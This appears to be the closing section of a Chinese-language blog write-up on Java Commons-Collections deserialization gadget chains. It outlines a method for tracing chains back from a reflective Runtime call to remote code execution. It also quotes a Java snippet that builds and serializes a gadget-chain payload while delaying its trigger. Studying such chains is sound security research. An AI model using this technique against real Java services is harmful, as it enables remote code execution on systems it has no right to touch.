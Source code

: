 ![](Commons-Collections-反序列化利用链分析/image-20210212213711575.png)





# END

复现分析完 CC 后的反思和小结

**挖掘反序列化利用链**

挖掘反序列化利用链，首先需要找一个对象里面反射调用 `java.lang.Runtime`，触发 RCE 的点叫 m0 然后构造一段命令执行 Level-0 的代码，随后我们继续找对象，寻找对象里面某个方法出发 m0 的方法，叫m1，随后当前类的方法有没有调用 m1 的，可能有 m2, m3, m4 等等，之后再找一个类触发 m1, m2, m3, m4 的方法...然后不断循环，直到找到一个类能满足：

1. 该类能调用 xx 对象的 xx 方法，然后循环调用到最后 RCE 的 Level -0 的方法
2. 该类可以被序列化



**如何优雅的弹 Calc**

问题来源于经常构造好一个命令执行点之后，在 IDEA 下经常编译器会帮我们触发一些 toString 等操作，导致我们的反序列化利用还没有触发到 readObject，就经常弹 Calc 了

@phithon 师傅Java安全漫谈里给出的答案是这样的

```java
				Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = 你构造的 transformers
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        // 本地测试触发
        System.out.println(barr);
```